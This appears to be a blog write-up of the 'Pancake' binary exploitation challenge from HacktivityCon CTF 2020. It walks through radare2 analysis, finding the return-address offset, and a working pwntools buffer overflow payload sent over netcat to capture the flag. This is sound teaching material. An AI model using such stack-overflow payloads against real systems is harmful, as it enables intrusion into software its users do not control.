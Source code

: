   title: "Pancake (HacktivityCon CTF)",
  description: "HacktivityCon CTF",
  date: "August 1, 2020",
};


<div className={styles.post}>

# Pancake (HacktivityCon CTF)

###### August 1, 2020

**Description**
Pancake is a simple binary exploitation challenge from HacktivityCon CTF.
Entering a long string causes a buffer overflow and pancake segfaults. Some familiarity with radare2 and the call stack will be helpful going through this writeup. A great guide on radare2 can be found [here](https://www.megabeets.net/a-journey-into-radare-2-part-1/).
**Analysis**
Load and analyze the binary in radare2. The stack is not executable, but the file isn't protected by [canaries](https://en.wikipedia.org/wiki/Buffer_overflow_protection#Canaries) nor compiled with support for [position independent code](https://en.wikipedia.org/wiki/Position-independent_code). This means that there is no protection against buffer overflows and the segments will always be loaded to the same location.

<div className={styles.codeblock}>

```
$ r2 -A pancakes
[0x00400700]> iI
arch     x86
baddr    0x400000
binsz    6995
bintype  elf
bits     64
canary   false
nx       true
pic      false
... (output truncated)
```

</div>

List function symbols within the binary. Although most of the functions are from C libraries and calls used by the program, two of them stand out. One of them is <code>main</code>, which is always worth checking out. The second is <code>secret_recipe</code>, which seems to be a user defined function.

<div className={styles.codeblock}>

```
[0x00400700]> afl
0x00400700    1 42           entry0
0x00400740    4 42   -> 37   sym.deregister_tm_clones
0x00400770    4 58   -> 55   sym.register_tm_clones
0x004007b0    3 34   -> 29   sym.__do_global_dtors_aux
0x004007e0    1 7            entry.init0
0x00400a70    1 2            sym.__libc_csu_fini
0x00400a74    1 9            sym._fini
0x0040098b    1 113          sym.secret_recipe
0x004006d0    1 6            sym.imp.fopen
0x00400690    1 6            sym.imp.fread
0x00400680    1 6            sym.imp.puts
0x00400a00    4 101          sym.__libc_csu_init
0x00400730    1 2            sym._dl_relocate_static_pie
0x004007e7   10 420          main
0x00400648    3 23           sym._init
0x00400670    1 6            sym.imp.putchar
0x004006a0    1 6            sym.imp.printf
0x004006b0    1 6            sym.imp.gets
0x004006c0    1 6            sym.imp.setvbuf
0x004006e0    1 6            sym.imp.atoi
0x004006f0    1 6            sym.imp.usleep
0x004000ea    1 2            fcn.004000ea
```

</div>

Firstly, examine the <code>secret_recipe</code> because it's supposed to be a secret. Going over the disassembly, the function is simple. <code>secret_recipe</code> opens a file named <code>flag.txt</code>, reads it contents and prints it out.

<div className={styles.codeblock}>

```
[0x00400700]> pdf @ sym.secret_recipe
... (output truncated, radare comments removed for better readability)
0x004009a5       488d3dce0200.   lea rdi, str.flag.txt
0x004009ac       e81ffdffff      call sym.imp.fopen
0x004009b1       488945f0        mov qword [stream], rax
0x004009b5       488b55f0        mov rdx, qword [stream]
0x004009b9       488d8560ffff.   lea rax, [ptr]
0x004009c0       4889d1          mov rcx, rdx
0x004009c3       ba80000000      mov edx, 0x80
0x004009c8       be01000000      mov esi, 1
0x004009cd       4889c7          mov rdi, rax
0x004009d0       e8bbfcffff      call sym.imp.fread
0x004009f4       e887fcffff      call sym.imp.puts
```

</div>

Next, skimming through the disassembly for <code>main</code>, the function also seems fairly straightforward - prints some stuff, gets user input and prints more stuff. <code>main</code> uses the <code>gets</code> function to get input. <code>gets</code> is a deprecated function that does not peform checks on input length, leading to potential buffer overflows exploits. This explains the segfault upon passing in a long string.

<div className={styles.codeblock}>

```
[0x00400700]> pdf @ main
... (output truncated, radare comments removed for better readability)
0x0040085b      e860feffff     call sym.imp.setvbuf
0x00400860      488d3d510300.  lea rdi, str.Welcome_to_the_pancake_stacker
0x00400867      e814feffff     call sym.imp.puts
0x0040086c      488d3d650300.  lea rdi, str.How_many_pancakes_do_you_want
0x00400873      e808feffff     call sym.imp.puts
0x00400878      488d8570ffff.  lea rax, [str]
0x0040087f      4889c7         mov rdi, rax
0x00400882      b800000000     mov eax, 0
0x00400887      e824feffff     call sym.imp.gets
0x0040088c      488d8570ffff.  lea rax, [str]
0x00400893      4889c7         mov rdi, rax
0x00400896      b800000000     mov eax, 0
0x0040089b      e840feffff     call sym.imp.atoi
0x004008a0      8945f0         mov dword [var_10h], eax
0x004008a3      488d3d4d0300.  lea rdi, str.Cooking_your_cakes
0x004008aa      b800000000     mov eax, 0
0x004008af      e8ecfdffff     call sym.imp.printf
... (output truncated)
```

</div>

Note that <code>main</code> does not make a call to <code>secret_recipe</code>. Maybe the vulnerable <code>gets</code> can be exploited to overwrite the return address on the stack?
**Exploitation**
To craft the payload, we need to identify the offset in our buffer where the return address will be placed. To do so, generate a [De Bruijn Sequence](https://en.wikipedia.org/wiki/De_Bruijn_sequence) long enough string to cause a segfault. The sequence can be generated by using <code>ragg2</code>, which is part of the radare project.

<div className={styles.codeblock}>

```
$ ragg2 -P 200 -r
AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAVAAWAAXAAYAAZAAaAAbAAcAAdAAeAAfAAgAAhAAiAAjAAkAAlAAmAAnAAoAApAAqAArAAsAAtAAuAAvAAwAAxAAyAAzAA1AA2AA3AA4AA5AA6AA7AA8AA9AA0ABBABCABDABEABFA%
```

</div>

Run radare2 in debug mode <code>r2 -d ./pancake</code>. Analyze the binary and set a breakpoint at the <code>ret</code> instruction in <code>main</code>. This will pause execution of the program just before the <code>main</code> function exits, allowing us to examine the stack. <code>dc</code> to begin execution of the program, passing the De Bruijn Sequence when prompted. Since we have placed a breakpoint at the end of main, the program should pause execution. Print the first 16 bytes on the stack using <code>pxw 8 @ rsp</code>. Using the first four bytes on the stack, calculate the offset using the command <code>wopO 0x41417a41</code>. This is where we will place the address to <code>secret_recipe</code>.

<div className={styles.codeblock}>

```
[0x00400700]> pdf @ main
... (output truncated)
0x00400984      b800000000     mov eax, 0
0x00400989      c9             leave
0x0040098a      c3             ret
[0x00400700]> db 0x0040098a
[0x00400700]> dc
... (output truncated)
hit breakpoint at: 40098a
[0x0040098a]> pxw 16 @ rsp
0x7ffffe1723b8  0x41417a41 0x32414131 0x41334141 0x41413441  AzAA1AA2AA3AA4AA
[0x0040098a]> wopO 0x41417a41
152
```

</div>

The final payload will be just a buffer of 152 bytes with the address of <code>secret_recipe</code> added onto the end. Since data is stored and loaded in little endian format on x86, the address to <code>secret_recipe</code> must be passed with the same endianess. Pwntools can be used to easily convert the address into little endian format, instead of doing it manually, which can be tedious. Finally create a file (if it does not already exist) in the same directory named <code>file.txt</code> to test the payload.

<div className={styles.codeblock}>

```
$ cat flag.txt
FLAG{HASH123}
$ python -c "from pwn import *; import sys; secret_recipe = 0x0040098b; offset=152; payload = b'A'*offset + p64(secret_recipe); sys.stdout.buffer.write(payload)" | ./pancakes
...(output truncated)
FLAG{HASH123}
[1]    17531 done                              python -c  |
       17532 segmentation fault (core dumped)  ./pancakes
```

</div>

With the payload working, throw it over netcat to capture the flag.

<div className={styles.codeblock}>

```
$ {python -c "from pwn import *; import sys; secret_recipe = 0x0040098b; offset=152; payload = b'A'*offset + p64(secret_recipe); sys.stdout.buffer.write(payload)";cat;} | nc jh2i.com 50021
Welcome to the pancake stacker!
How many pancakes do you want?
Cooking your cakes.....
Smothering them in butter.....
Drowning them in syrup.....
They're ready! Our waiters are bringing them out now...
        _____________
       /    ___      \\
      ||    \\__\\     ||
      ||      _      ||
      |\\     /\ \     /|
      \\ \\___/ ^ \\___/ /
      \\\\____/_^_\\____//_
    __\\\\____/_^_\\____// \\
   /   \____/_^_\____/ \\ \\
  //                   , /
  \\\\___________   ____  /
               \\_______/
flag{too_many_pancakes_on_the_stack}
```

</div>

</div>
